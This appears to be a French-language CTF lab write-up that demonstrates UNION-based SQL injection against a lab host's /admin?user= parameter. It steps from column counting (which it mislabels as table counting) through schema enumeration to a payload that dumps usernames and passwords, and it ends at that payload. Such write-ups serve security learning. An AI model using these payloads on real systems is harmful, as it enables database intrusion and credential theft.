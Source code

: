 L'url suivante : http://10.10.112.87/admin?user=123%27UNION%20SELECT%20NULL--
Répond :
```
Error: ER_PARSE_ERROR: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''UNION SELECT NULL-- -' at line 1
```
On peux donc bien agir sur la database.
On va faire un peu de recherche avec les SQLi

## Nombre de tables
Avec l'injection suivante:
```
http://10.10.99.234/admin?user=123%20UNION%20SELECT%20NULL,NULL,NULL,NULL--
```
J'ai cette erreur :
```
Error: ER_WRONG_NUMBER_OF_COLUMNS_IN_SELECT: The used SELECT statements have a different number of columns
```
Je vais donc continuer a ajouter des **NULL** jusqu'a ne plus avoir d'erreur.
Avec cette SQLi:
```
http://10.10.99.234/admin?user=2%20UNION%20SELECT%20NULL,NULL,NULL,NULL--
```
Je n'ai plus d'erreur, je sais donc qu'il y a 4 tables.
## Nom de la database
On récupère le nom de la databse :
```
http://10.10.99.234/admin?user=123%20UNION%20SELECT%20database(),1,2,3
```
Résultat dans le champ **ID**:
```
marketplace
```
On sait donc que la DB s'appelle **marketplace**
## Nom des tables
Pour avoir tout en un seul ligne, on va utiliser **group_concat**, cela sera plus facilement lisible.

La requête suivante:
```
http://10.10.99.234/admin?user=123%20UNION%20SELECT%20group_concat(table_name),2,3,4%20FROM%20information_schema.tables%20WHERE%20table_schema%20=%27marketplace%27
```
M'affiche les tables dans le champ **ID**:
```
items,messages,users
```
On retrouve ici les 3 tables dispo dans la db marketplace.
## Table users !
Pareil ici, on va concat !
On va récupèrer le contenu de **users**
```
http://10.10.99.234/admin?user=123%20union%20SELECT%20group_concat(column_name),2,3,4%20FROM%20information_schema.columns%20WHERE%20table_schema%20=%20database()%20AND%20table_name%20=%27users%27
```
```
id,username,password,isAdministrator 
```
## Username & Password !
```
http://10.10.99.234/admin?user=123%20UNION%20SELECT%20group_concat(username,0x3a,password),2,3,4%20FROM%20users
```